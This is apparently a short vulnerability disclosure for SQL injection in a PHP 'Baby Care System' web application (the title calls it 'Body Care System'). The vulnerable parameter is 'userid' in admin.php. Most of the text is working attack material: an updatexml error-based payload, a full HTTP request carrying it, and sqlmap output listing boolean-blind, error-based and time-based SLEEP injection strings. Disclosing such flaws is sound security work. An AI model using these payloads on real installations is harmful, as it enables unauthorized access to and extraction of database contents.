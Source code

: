## Body Care System has SQL injection vulnerability

vendor: https://www.sourcecodester.com/php/14622/baby-care-system-phpmysqli-full-source-code.html

Vulnerability file: /BabyCare/admin/uesrs.php&action=display&value=Show&userid=

![image](https://user-images.githubusercontent.com/54017627/161356353-ed05fce2-7ad0-4f82-ba55-eddd9a8948ea.png)

Vulnerability location: /BabyCare/admin.php?id=users&action=display&value=Show&userid=3 //uesrid is Injection point

[+]Payload: /BabyCare/admin.php?id=users&action=display&value=Show&userid=3%27%20and%20updatexml(1,concat(0x7e,(select%20database()),0x7e),2)--+  //userid is Injection point

```sql
GET /BabyCare/admin.php?id=users&action=display&value=Show&userid=3%27%20and%20updatexml(1,concat(0x7e,(select%20database()),0x7e),2)--+ HTTP/1.1
Host: 192.168.1.19
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.84 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=h48mjnelp4g0935821l2k3g5ne
Connection: close
```
![image](https://user-images.githubusercontent.com/54017627/161356273-40a840aa-a8d6-4dfd-a8e9-b766d9ee15ed.png)

```sql
---
Parameter: userid (GET)
    Type: boolean-based blind
    Title: MySQL RLIKE boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause
    Payload: id=users&action=display&value=Show&userid=3' RLIKE (SELECT (CASE WHEN (8387=8387) THEN 3 ELSE 0x28 END))-- qMWa

    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: id=users&action=display&value=Show&userid=3' AND (SELECT 1354 FROM(SELECT COUNT(*),CONCAT(0x71627a7871,(SELECT (ELT(1354=1354,1))),0x7171707671,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- hxjb

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=users&action=display&value=Show&userid=3' AND (SELECT 8907 FROM (SELECT(SLEEP(5)))qpmN)-- ZPdb
---
```

![image](https://user-images.githubusercontent.com/54017627/161356374-752599b1-a482-4ad3-b355-672f3db669af.png)
